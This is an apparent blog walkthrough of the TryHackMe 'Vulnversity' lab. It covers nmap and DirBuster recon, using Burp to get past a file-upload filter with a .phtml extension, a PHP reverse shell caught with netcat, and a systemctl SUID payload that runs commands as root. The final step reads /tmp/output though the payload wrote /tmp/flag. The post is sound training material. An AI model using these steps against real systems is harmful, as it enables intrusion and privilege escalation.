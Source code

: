 ```yaml
--- 
layout : post
title : TryHackMe Vulnversity 
author: Edwards
date: 2020-10-08
categories: [CTF, TryHackMe]
tags: [Web, Linux, Easy, DirBuster, BurpSuite]
math: true
--- 
```


# Vulneversity

## Through this box we are going to learn :

- How to scan a website with nmap.
- Use DirBuster to find directories and files on web servers.
- Use BurpSuite to search for file extensions.
- Take advantage of SUID file to escalate our privileges on a linux system.

### Section 1 : Recon

Let's launch our Nmap scan.
```bash
edwards@kali:/home$ ip=10.10.19.92
edwards@kali:/home$ nmap -T4 -A -p- $ip
```
![image](/assets/img/Vuln/nmap.png)

We can see that a website is running on <ip>:3333 and it's potentially running on a Ubuntu OS

Let's look that website.

![image](/assets/img/Vuln/website.png)

_feel free to check inside the different pages, what you can do on the website etc..._

### Section 2 : Dirbuster

On this section we are gonna use Dirbuster to find sensitive directories.

launch Dirbuster with :
```bash
dirbuster
```
![image](/assets/img/Vuln/config.png)

My configuration for the research.
- On the target url : The ip adress of the website with the port.
- File with list of dirs.files : the list avaible on the /usr/share/wordlists/dirbuster (I usually pick the medium one ) 
- File extension : php,js,html,htm (Basic file extensions on website)

![image](/assets/img/Vuln/result.png)

I found something interesting, the website got an internal/uploads page avaible. 
Let's check this page and what messy things we can do.


As you can see, we can uploads file. Which is very good for us.

![image](/assets/img/Vuln/upload.png)

Try to upload some files with different extensions.
Apparently they don't like php file.

![image](/assets/img/Vuln/php.png)

_After a tentative of php uploading_

### Section 3 : BurpSuite 
_I'm not gonna explain how Burpsuite works in this room, so I will assume that you have a familiarity with Burpsuite already_

We are gonna use BurpSuite to know which php extensions are not blocked.
So let's fuzz the upload form !


Send this to intruder with "right-click" :
![image](/assets/img/Vuln/proxy.png)

I created a list with php extensions : 
![image](/assets/img/Vuln/ext.png)

At payload options, load your list : 
![image](/assets/img/Vuln/payload.png)

At position, erase all $ and add $$ so your .php is between them : 
![image](/assets/img/Vuln/dollars.png)

Then, start the attack ! 

Well.. that's a fail, but let's try manually, we are not gonna stop here.
![image](/assets/img/Vuln/fail.png)

Try to upload test.phtml
![image](/assets/img/Vuln/success.png)

We can see that the extension phtml. 
On TryHackMe you have a file avaible, it's actually a reverse shell, let's upload it on the server.

Before, change in the file the $ip and $port variable to your ip and the port that you are gonna use for the netcat part (1234).

![image](/assets/img/Vuln/variable.png)

With netcat start to listen to incoming connection from the webserver.
```bash
edwards@kali:~/Documents/Vul$ nc -lvnp 1234
listening on [any] 1234 ...
```

Navigate to :
```bash
http://<ip>:3333/internal/uploads/reverse_shell.phtml 
```

On your terminal you should see this :

![image](/assets/img/Vuln/connected.png)

This mean you are inside ! Congrats.

### Section 4 : Bill got pawned 

First we are gonna display the /etc/passwd to find the user that is running the web server.

![image](/assets/img/Vuln/bill.png)

Let's move to bill's directory, maybe the flag is there.
_On easy machine, it's highly possible that the flag is hidden in basic directory_

![image](/assets/img/Vuln/flagbill.png)

### Section 5 : Privilege Escalation
https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/

We are asked to find SUID files to gain access as root. 

I used the command : 
```bash 
find / -perm -u=s -type f 2>/dev/null 
```

The systemctl stands out, 
the systemctl is a controlling interface and inspection tool for the systemd init service.

![image](/assets/img/Vuln/system.png)

I'm not gonna lie, I had no clue what to do with this. 
I found later on this website : https://gtfobins.github.io/gtfobins/systemctl/
a way to use this fault.
I change the id with "/root/root.txt".
```bash
var=$(mktemp).service

echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/flag"

[Install]
WantedBy=multi-user.target' > $var

/bin/systemctl link $var
/bin/systemctl enable --now $var
```

What we have just done is basically take advantage of the systemctl to create a system service and run it as root.
The created service will execute "BASH" then read the flag and redirect the ouptu to our flag file in /tmp.

To have the flag you just have to move to : 
```bash
cat /tmp/output 
```
